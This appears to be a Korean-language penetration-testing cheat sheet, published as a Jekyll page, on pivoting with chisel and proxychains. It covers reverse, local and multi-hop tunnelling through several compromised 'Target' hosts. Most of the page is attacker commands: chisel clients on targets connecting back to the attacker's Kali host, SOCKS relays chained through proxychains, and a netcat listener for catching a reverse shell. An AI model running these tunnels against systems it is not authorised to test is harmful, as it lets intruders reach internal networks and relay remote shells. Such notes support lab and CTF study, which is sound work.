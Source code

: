 ```yaml
---
layout: page
title: Tunnelling
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}



Chisel
https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz



### [Reverse Pivot]
Kali에서 Target으로 요청을 보낼 때

```bash title="공격자 서버 (chisel server 열기)"
chisel server -p 8081 --reverse &
```


```bash title="공격자 Server의 /etc/proxychains4.conf 수정"
vim /etc/proxychains4.conf
```
![[Pasted image 20250708230909.png]]
맨 밑에다 추가
```text
socks5 127.0.0.1 1080
```



```bash title="Target server에 chisel client 실행하링"
# 연결된 동안에도 다른 작업해야하기 때문에 백그라운드로 실행
./chisel client 10.250.180.2:8081 R:socks &
```



```bash title="공격자 Server에서 proxychains로 명령어 실행"
proxychains -q curl 10.200.180.150
```
![[Pasted image 20250708231334.png]]



공격자 서버에서는 10.200.180.150 ip에 바로 접근 할 수 없음.
10.250.180.200 서버에서는 10.200.180.150 으로 접근할 수 있기에 터널링을 통해 공격자 서버에서 바로 접근 가능하도록 하는 것.








### [Local Pivot]

대상에서 트래픽을 받을 때 (리버스 쉘 붙일 때)


```bash title="공격자 Kali - chisel server"
chisel server -p 8000
```

```bash title="Target 1 - chisel client, server"
chisel client [kali ip]:8000 9000:127.0.0.1:9010

# Target 2에서 붙을 chisl server
chisel server -p 8001
```
Target 1 에서 9000번 포트를 열고 Target 1의 9000번 포트를 통한 트래픽은 kali에서 127.0.0.1:9010 으로 나가라.



```bash title="Target 2 - chisel client"
chisel client [Target 1 ip]:8001 9001:127.0.0.1:9000
```



```bash title="공격자 Kali 에서 포트 열고 대기"
rlwrap nc -lvnp 9010
```

```powershell title="Target 3 - Target 2로 트래픽 테스트"
Test-NetConnection [Target 1 ip] -Port 9001
```
Target 2의 9001번 포트로 트래픽을 전송 -> Target 2으로 들어온 트래픽을 Target1 로 전송 -> Target1로 들어온 트래픽을 Kali로 전송 -> Kali로 들어온 트래픽은 Kali의 9010 포트로 나가셈.




## [Multi-hop Pivoting]

대상으로 트래픽을 보낼 때

### [[Multi-hope pivoting diagram]]



```bash title="Attacer Kali"
chisel server -p 9001 --reverse
```

```plaintext title="/etc/proxychains4.conf"
# Target 개수에 맞춰줘야함

# 1번째 터널 입구
socks5 127.0.0.1 9999
# 2번째 터널 입구
socks5 127.0.0.1 8888
# 3번째 터널 입구
socks5 127.0.0.1 7777
```



Kali를 향한 `client`이자, Pivot 2를 위한 `server`.

```bash title="Target 1"
# Kali로 접속 (1번 터널 생성)
./chisel client <Kali_IP>:9001 R:9999:socks

# Pivot 2의 접속을 대기
./chisel server -p 9002 --reverse
```



Target 1을 향한 `client`이자, Pivot 3을 위한 `server`.

```bash title="Target 2"
# Pivot 1로 접속 (2번 터널 생성)
./chisel client <Target1_IP>:9002 R:8888:socks

# Pivot 3의 접속을 대기 (새로운 서버 실행)
./chisel server -p 9003 --reverse
```



Target 2를 향한 `client`.

```bash title="Target 3"
# Pivot 2로 접속 (3번 터널 생성)
./chisel client <Target2_IP>:9003 R:7777:socks
```



터널링 
```bash title="Attacker Kali"
# Target 3로 curl 명령 날릴 수 있음
proxychains -q curl <Target3_IP>
```


